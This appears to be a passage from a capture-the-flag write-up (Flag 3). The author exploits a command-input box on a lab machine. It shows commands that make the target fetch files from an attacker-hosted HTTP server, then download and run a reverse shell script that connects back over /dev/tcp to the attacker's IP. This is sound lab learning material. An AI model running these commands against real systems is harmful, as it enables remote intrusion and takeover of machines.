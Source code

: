 # Flag 3

After logging in as `Stefan`, we see an input box telling us to enter a command.

Running commands will either give us a generic `OK` message or simply no message at all.  
Running `wget` by itself gives us an `OK` message  
![ccd1f7ebeffd924f829a6be49ab872b1.png](./_resources/ccd1f7ebeffd924f829a6be49ab872b1.png)

Let's test this and see if we can actually run commands on the machine:

```bash
python3 -m http.server 80 # Run on the attacker machine

wget <attack_ip>/test # Submit as command input
```

![4e72d80b38e0b1d762906106356c0eb6.png](./_resources/4e72d80b38e0b1d762906106356c0eb6.png)  
We can see that the command ran successfully. It's time to get a shell...

After testing different payloads, this was my way in:

```bash
nano rev.sh
sh -i >& /dev/tcp/<attacker_ip>/53 0>&1 # Paste into nano then CTRL + O to save and CTRL + X to exit
python3 -m http.server 80 # run on attacker machine

curl <attacker_ip>/rev.sh -o /tmp/rev.sh # Submit as input
bash /tmp/rev.sh # Submit as input
```

